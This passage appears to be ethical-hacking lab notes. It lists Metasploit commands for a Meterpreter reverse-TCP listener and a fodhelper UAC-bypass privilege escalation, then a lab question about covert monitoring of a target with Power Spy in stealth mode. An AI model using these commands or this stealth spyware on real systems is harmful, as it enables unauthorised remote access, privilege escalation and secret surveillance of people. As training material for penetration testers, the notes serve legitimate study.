 #### Create Listener

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost <IP addr>

set lport 444

run

getuid

sysinfo

background
```

#### Escalate Privilege

```
use exploit/windows/local/bypassuac_fodhelper

set session 1

show options

set lhost <IP addr>

set TARGET 0

exploit

getsystem -t 1

getuid

background
```



## Maintain Remote Access and Hide Malicious Activities

### System Monitoring and Surveillance

#### Power Spy

Use the Power Spy tool on the Windows Server 2022 machine to monitor the target machine at 10.10.1.19. Use the user account Jason, with the password qwerty, to establish a Remote Desktop Connection with the target system. What is the default key combination to put Power Spy in the Stealth mode?
